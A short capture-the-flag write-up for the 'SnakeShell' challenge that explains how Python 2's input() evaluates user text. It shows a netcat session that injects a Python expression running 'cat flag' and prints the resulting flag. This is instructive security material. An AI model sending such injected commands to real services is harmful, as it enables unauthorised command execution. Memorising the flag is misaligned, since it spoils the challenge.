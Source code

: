 ```yaml
---
layout: writeup
ctf: WhiteHats CTF 2021
chal: SnakeShell
flag: WH2021{Heh_wH0'5_tH3_0ne_wH0_G0T_pwned!}
points: 972
solves: 16
category: misc
---
```


> We have employed the best snakes in the industry to perform automatic hacking for you. You simply need to enter the target IP address and number of tries and it will infiltrate the system for you.

> All will be done so easily, just like what you see in movies. Experience the power of this tool now!

As we aren't given any files and only a server, first thing to do is to fuzz the server with unexpected input. It expects an IP address and integer, but what if we gave a string?

```
ariana@ariana ~> nc chals.whitehacks.ctf.sg 10111

        Hacking Machine 1.0 Pro Max Super
        Makes hacking as easy as in movies.

Please enter the IP address of your enemy: asd
Enter the number of tries: asd
Traceback (most recent call last):
  File "./snake.py", line 9, in <module>
    num = int(input("Enter the number of tries: "))
  File "<string>", line 1, in <module>
NameError: name 'asd' is not defined
```

We immediately see the flaw is because it uses python2 `input`. This reminded me of [this writeup](https://ctftime.org/writeup/20660) that cheezed an entire crypto challenge in DefCon quals 2020, hence I tried it and got the flag!

```
ariana@ariana ~> nc chals.whitehacks.ctf.sg 10111

        Hacking Machine 1.0 Pro Max Super
        Makes hacking as easy as in movies.

Please enter the IP address of your enemy: asd
Enter the number of tries: __import__('os').system('cat flag')
WH2021{Heh_wH0'5_tH3_0ne_wH0_G0T_pwned!}
HACKING asd IN PROGRESS...
Exploit started, attacking asd
HACKING COMPLETED. YOU ARE IN!
```
